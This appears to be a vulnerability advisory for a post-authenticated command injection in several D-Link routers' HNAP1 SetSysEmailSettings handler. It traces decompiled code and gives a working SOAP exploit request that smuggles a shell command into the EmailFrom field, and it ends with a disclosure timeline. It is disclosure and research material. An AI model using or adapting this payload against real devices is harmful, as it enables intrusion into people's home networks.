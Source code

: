 # D-Link DIR-1960 : HNAP1 SetSysEmailSettings Post-Authenticated Command Injection

## Affected Software

Device : **D-Link DIR-1960, DIR-1360, DIR-2260 & DIR-3060**

Firmware: **1.11B03 Hotfix**

Endpoint: http://purenetworks.com/HNAP1/


## Description of the vulnerability
This vulnerability is present as there are no checks on user input taken from the SetSysEmailSettings action, which is passed to `twsystem`, allowing an attacker to execute arbitary code on the affected installations of the D-Link DIR-878 router.

## Technical Details

### HNAP1

D-Link uses the HNAP1 (Home Network Administration Protocol) which is a SOAP-based protocol. It can be accessed through the http://purenetworks.com/HNAP1/ with a SOAPAction HTTP header to specify the desired operation. **/bin/prog.cgi** is responsible for receiving the incoming requests, and saves the user-given parameters into nvram after processing them. On the other hand, **/bin/rc** reads from nvram then performs the operation that is requested by the user.

**/bin/rc** spawns a UDP server at port 6789, which is used by **/bin/prog.cgi** to notify it whenever there is request made by the user.


### Vulnerability

#### /bin/prog.cgi receives the request

In the **/bin/prog.cgi** binary, at the `SetSysEmailSettings` handler (0x4364e4), the parameters `EmailFrom` and `EmailTo` are read from the XML data in the request body, then passed into `MAIL_CheckEmail` to validate the input. After that, the parameters are saved into nvram.

```c
email_from = webGetVarString(request, "SetSysEmailSettings/EmailFrom");
check = MAIL_CheckEmail(email_from);
...
nvram_safe_set("SysLogMail_From", email_from);
```

```c
email_to = webGetVarString(request, "SetSysEmailSettings/EmailTo");
check = MAIL_CheckEmail(email_to);
...
nvram_safe_set("SysLogMail_To", email_to);
```

However, `MAIL_CheckEmail` only ensures that the characters `@` and `.` are present in the email string, and it does not check for bad characters that might result in command injection.

Finally, `serviceApply(1, 0x28);` is called, which notifies **/bin/rc** of a `start_email` operation.

```c
case 0x28:
    notify_rc("start_email");
    break;
```

#### /bin/rc handles the request

Inside `handle_notifications`, the `start_email` string leads to a call to `start_SendLog()`, which calls the vulnerable function at 0x4520bc.

```c
cmp = strcmp(notif_string_end, "email");
// mode == 2 when the notification starts with "start_"
if (cmp == 0) {
    if ((mode & 1) != 0) {
        FUN_00452078();
    }
    if ((mode & 2) != 0) {
        start_SendLog();
    }
}
```

```c
void start_SendLog(void)
{
  f_4520bc();
  return;
}
```

At 0x452b90 in the vulnerable function, the previously unchecked parameter `EmailFrom` is passed into `twsystem`, resulting in a command injection attack.

```c
auth_enable = nvram_get_int("SysLogMail_Auth_Enable");

if (auth_enable == 0) {
    emailFrom = nvram_safe_get("SysLogMail_From");
    smtServerAddress = nvram_safe_get("SysLogMail_SMTPServerAddress");
    smtpServerPort = nvram_safe_get("SysLogMail_SMTPServerPort");
    sprintf(cmd, "sendmail -f %s -H %s:%s -S -w %s -h %s < %s &", emailFrom,
            smtServerAddress, smtpServerPort, smtpTimeout, hostdomain, "/tmp/MailEnvelop");
}
else {
    auth_name = nvram_safe_get("SysLogMail_Auth_Name");
    auth_password = nvram_safe_get("SysLogMail_Auth_Password");
    TW_reversechar(auth_name2, auth_name, 0x100);
    TW_reversechar(auth_password2, auth_password, 0x100);
    emailFrom = nvram_safe_get("SysLogMail_From");
    smtServerAddress = nvram_safe_get("SysLogMail_SMTPServerAddress");
    smtpServerPort = nvram_safe_get("SysLogMail_SMTPServerPort");
    sprintf(cmd, "sendmail -f %s -H %s:%s@%s:%s -S -w %s -h %s < %s &", name,
            auth_name2, auth_password2, smtServerAddress, smtpServerPort, smtpTimeout, hostdomain,
            "/tmp/MailEnvelop");
}

twsystem(cmd, 1);
```

The code is vulnerable on both branches of the if-block.

## Exploit

After authenticating, send the following SOAP request to http://purenetworks.com/HNAP1/.

```xml
Content-Type: text/xml; charset=utf-8
SOAPAction: http://purenetworks.com/HNAP1/SetSysEmailSettings

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetSysEmailSettings xmlns="http://purenetworks.com/HNAP1/">
            <SysEmail>true</SysEmail>
            <EmailFrom>from@gg.com$(echo gg>/tmp/gg)</EmailFrom>
            <EmailTo>to@gg.com</EmailTo>
            <SMTPServerAddress>127.0.0.1</SMTPServerAddress>
            <SMTPServerPort>587</SMTPServerPort>
            <Authentication>false</Authentication>
            <AccountName>name</AccountName>
            <AccountPassword>password</AccountPassword>
            <OnLogFull>true</OnLogFull>
            <OnSchedule>true</OnSchedule>
            <ScheduleName>schedule</ScheduleName>;
        </SetSysEmailSettings>
    </soap:Body>
</soap:Envelope>
```

### Usage

```
$ npm install
$ node app.js
```

Credits: https://github.com/bikerp/dsp-w215-hnap

## Timeline
20th July 2021 - First attempt to notify vendor

05th April 2022 - Second attempt to notify vendor

07th April 2022 - Third attempt to notify vendor

24th June 2022 - Fourth attempt to notify vendor

27th June 2022 - FundayFriday release